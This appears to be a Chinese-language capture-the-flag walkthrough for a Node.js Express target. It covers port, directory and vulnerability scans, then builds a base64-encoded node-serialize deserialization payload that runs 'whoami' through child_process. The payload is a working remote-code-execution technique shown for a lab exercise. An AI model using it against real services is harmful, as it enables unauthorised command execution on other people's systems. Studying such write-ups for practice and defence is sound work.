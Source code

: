 ### 端口扫描

```bash
sudo nmap -sS -A -p- IP
sduo nmap -sS -sV -T5 -p- IP
rustscan -a IP
```

```
PORT    STATE SERVICE REASON  VERSION
22/tcp  open  ssh     syn-ack OpenSSH 7.7 (protocol 2.0)
666/tcp open  http    syn-ack Node.js Express framework
```

### 目录扫描

```bash
dirb -u IP:666
```

### 漏洞扫描

```
nikto -h IP:666
```

## 漏洞利用

cookie是一个编码结果：

```json
{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":Friday, 13 Oct 2018 00:00:00 GMT"}
```

需要修改为：

```json
{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":"Friday, 13 Oct 2018 00:00:00 GMT"}
```

需要利用到反序列化漏洞：

```
{"username":"_$$ND_FUNC$$_function(){return require('child_process').execSync('whoami',(error,stdout,stderr)=>{console.log(stdout)}); }()"}
```

- child_process是node.js中的一个模块，它以类似于popen（3）的方式生成子进程。
- child_process.exec（）方法：此方法在控制台中运行命令并缓冲输出

编译以后抓包传上去：

```bash
eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe3JldHVybiByZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlY1N5bmMoJ3dob2FtaScsKGUsb3V0LGVycik9Pntjb25zb2xlLmxvZyhvdXQpO30pOyB9KCkifQo=
```
